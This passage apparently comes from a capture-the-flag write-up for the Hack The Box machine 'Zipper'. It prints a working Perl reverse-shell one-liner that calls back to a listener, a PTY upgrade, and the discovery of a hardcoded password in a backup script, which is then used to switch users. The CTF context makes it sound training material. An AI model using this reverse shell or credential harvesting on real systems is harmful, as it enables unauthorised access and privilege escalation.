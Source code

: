After trying a few other shells, I found the perl shell works better and is more stable:
```
perl -e 'use Socket;$i="10.10.14.23";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We now have a stable shell:
```
root@ragingunicorn:~/htb/zipper# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 46178
/bin/sh: 0: can't access tty; job control turned off
$ w
 20:56:27 up 20 min,  0 users,  load average: 0.02, 0.03, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ hostname
zipper
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@zipper:/$
```

We still can't read user.txt though:
```
cat: user.txt: Permission denied
zabbix@zipper:/home/zapper$
```

But we find a password inside the `backup.sh` script:
```
zabbix@zipper:/home/zapper/utils$ ls
backup.sh  zabbix-service
zabbix@zipper:/home/zapper/utils$ cat backup.sh
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

We can `su` to `zapper` using the `ZippityDoDah` password:
```
echo $?zabbix@zipper:/home/zapper/utils$ su zapper
su zapper
Password: ZippityDoDah


              Welcome to:
███████╗██╗██████╗ ██████╗ ███████╗██████╗
╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
  ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
 ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
███████╗██║██║     ██║     ███████╗██║  ██║
╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

[0] Packages Need To Be Updated
[>] Backups:



zapper@zipper:~/utils$ cd ..
cd ..
zapper@zipper:~$ cat user.txt
cat user.txt
```